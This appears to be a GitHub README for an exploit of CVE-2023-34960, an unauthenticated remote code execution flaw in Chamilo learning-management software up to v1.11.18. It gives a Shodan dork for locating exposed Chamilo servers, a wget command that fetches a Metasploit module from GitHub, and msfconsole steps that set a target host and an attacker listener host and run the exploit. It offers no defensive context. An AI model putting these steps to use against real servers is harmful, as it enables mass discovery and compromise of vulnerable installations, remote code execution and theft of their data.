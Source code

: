 # CVE-2023-34960

![](https://img.shields.io/static/v1?label=Product&message=Chamilo&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=v1.11.*%20up%20to%20v1.11.18&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:%209.8.%20Unauthenticated%20Remote%20Code%20Execution&color=red)

- Shodan dork:
```
http.component:"Chamilo" 
```

### Install

```
wget https://raw.githubusercontent.com/getdrive/PoC/main/2023/Chamilo_RCE/chamilo_unauth_rce_cve_2023_34960.rb
```
```
cp chamilo_unauth_rce_cve_2023_34960.rb /usr/share/metasploit-framework/modules/exploits/linux/http/
```
```
msfdb reinit; msfconsole -q
```
```
use exploitsexploits/linux/http/chamilo_unauth_rce_cve_2023_34960.rb
```
```
set rhosts target_IP
```
```
set lhost attacker_IP
```
```
run
```
